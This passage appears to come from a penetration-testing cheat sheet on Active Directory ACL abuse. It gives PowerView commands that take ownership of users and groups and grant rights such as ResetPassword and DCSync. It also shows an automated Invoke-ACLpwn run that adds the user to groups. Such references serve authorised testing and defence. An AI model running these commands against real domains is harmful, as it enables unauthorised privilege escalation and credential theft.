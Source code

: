`PowerView`'s `Set-DomainObjectOwner` can be used to change the owner of a
security object. Being the owner of an user can be leveraged to change the
user password and being the owner of a group can allows for the addition of
others security objects to the group.

```
Set-DomainObjectOwner -Verbose -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID>
Set-DomainObjectOwner -Verbose -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PS_CREDENTIALS> -Identity <SamAccountName | DistinguishedName | SID | GUID> -OwnerIdentity <SamAccountName | DistinguishedName | SID | GUID> -Verbose

# Once the user / group owner is changed, the GenericAll privilege can be granted to users using the new owner identity
# Refer to the "User - GenericAll" and "Group - GenericAll" parts for further exploitation
Add-DomainObjectAcl -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights All
```

###### User / group - WriteDacl

`PowerView`'s `Add-DomainObjectAcl` can be used to modify the specified object
ACE by adding the following rights: `All`, `ResetPassword`, `WriteMembers`,
`DCSync` (default to `All`) to the specified security object.

```
# TargetIdentity: security object that will be modified
# PrincipalIdentity: security object that will be given the right over the targeted object

Add-DomainObjectAcl -Verbose -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers | DCSync>
Add-DomainObjectAcl -Verbose -Server <DC_HOSTNAME | DC_IP> -Credential <PS_CREDENTIALS> -TargetIdentity <SamAccountName | DistinguishedName | SID | GUID> -PrincipalIdentity <SamAccountName | DistinguishedName | SID | GUID> -Rights <All | ResetPassword | WriteMembers | DCSync>
```

### Automated exploitation

The PowerShell cmdlet `Invoke-ACLpwn`, leveraging `SharpHound.exe` and thus
`.NET 3.5`, can be used to exhaustively enumerate the domain security principal
objects `DACLs` and find potential paths leading to privileges escalation.

Note that `Invoke-ACLpwn` will actively add the specified user to security
groups it has control over.

```
Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe

Invoke-ACL.ps1 -SharpHoundLocation .\sharphound.exe -Domain '<DOMAIN>' -Username '<USERNAME>' -Password '<PASSWORD>'
```
